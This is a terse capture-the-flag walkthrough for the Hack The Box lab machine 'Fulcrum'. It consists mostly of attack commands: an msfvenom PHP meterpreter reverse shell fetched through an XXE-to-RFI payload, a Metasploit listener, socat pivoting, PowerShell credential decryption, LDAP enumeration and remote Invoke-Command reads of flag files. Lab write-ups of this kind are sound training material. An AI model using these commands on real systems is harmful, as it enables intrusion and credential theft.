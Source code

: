 # Fulcrum
#### 10.10.10.62
###### Dotaplayer365

**Nmap:**

```
Nmap scan report for fulcrum.htb (10.10.10.62)
PORT     STATE SERVICE VERSION
4/tcp    open  http    nginx 1.10.3 (Ubuntu)
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
88/tcp   open  http    nginx 1.10.3 (Ubuntu)
9999/tcp open  http    nginx 1.10.3 (Ubuntu)
56423/tcp open  unknown
```

After checking out whats there under those webservers 

* 10.10.10.62:4

    Shows under maintenence

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

    We can see a structure like this: http://10.10.10.62:4/index.php?page=home

    There is a good chance thre is a RFI,  However when we run something like this (http://10.10.10.62:4/index.php?
page=http://10.10.14.99/test) it doesnt connect to our webserver

* 10.10.10.62:80

    Gives a Server Error

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-80.PNG"></kbd>

* 10.10.10.62:88

    Phpmyadmin

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-88.PNG"></kbd>


* 10.10.10.62:9999

    PFSense Firewall
    
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-9999.PNG"></kbd>

* 10.10.10.62:56423

    Looks like some api

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-56423.PNG"></kbd>




=> Host a php reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.171 LPORT=4442 > dotashell.php

python -m SimpleHTTPServer 80

=> create xml.txt
xml.txt: 

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.171/dotashell">
]>
<r>&sp;</r>

=> start Listner
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 
set LPORT 
run

=> Exec Payload
curl -d @xml.txt http://10.10.10.62:56423

=> decrypt Password present inside Fulcrum_Upload_to_Corp.ps1
Decrypt Password from ps1:
(New-Object System.Management.Automation.PSCredential 'N/A', $4).GetNetworkCredential().Password

Username: WebUser
Pass: M4ng£m£ntPa55

=> Connecting to remote powershell 

On meterpreter:
download this on the remote machine
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
make it executable
forward ports:
./socat tcp-listen:5986,reuseaddr,fork tcp:192.168.122.228:5986

./socat tcp-listen:5986,reuseaddr,fork tcp:10.10.10.62:5986

Use windows machine to get the remote powershell with this script
------------------------------------------------
$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

#Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
$o = New-PSSessionOption -SkipCACheck -SkipCNCheck
Enter-PSSEssion -Computer 192.168.1.106 -Credential $5 -UseSSL -SessionOption $o
------------------------------------------------

=> ps -aux on linux machine to find the cmdk names

10.25.25.1 => PfSense
10.25.25.2 => DC (LDAP)
10.25.25.3 => FILE Vm

=>Testing LDAP Creds to get Btables
------------------------------------------------
if ($env:computername  -eq $env:userdomain) { echo " no AD domain" } else { echo "must be in AD"}
no AD Domain
------------------------------------------------
$entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
$searcher = new-object directoryservices.directorysearcher($entry);
$searcher.filter = "(objectClass=user)";
$searcher.findAll() | Select Path
------------------------------------------------
$entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
$searcher = new-object directoryservices.directorysearcher($entry);
$searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
$searcher.findAll() | Select Path
$searcher.filter ="(objectClass=user)"
$results = $searcher.findAll()
foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
------------------------------------------------

=> Information about BTables User on the File Server
BTables@fulcrum.local
Username : BTables
Password : ++FileServerLogon12345++
Has logon rights to the file server

=> GET USER.TXT
 Invoke-Command -Computername file.fulcrum.local -ScriptBlock {type C:\Users\BTables\Desktop\user.txt} -credential $cred

=> Issue commands on file server
$session = New-PSSession –ComputerName file.fulcrum.local -credential $creds


Invoke-Command –Session $session –ScriptBlock {whoami}

=> There is check-auth.ps1 which has a script
Copy just the script into a ps1 file with tail 
ruin it with parameteres merged.txt
get domain admin creds 
923a,@fulcrum_bf392748ef4e_$

=> get root.txt
Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke
-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {type ../../Administrator/Desktop/root.txt}}


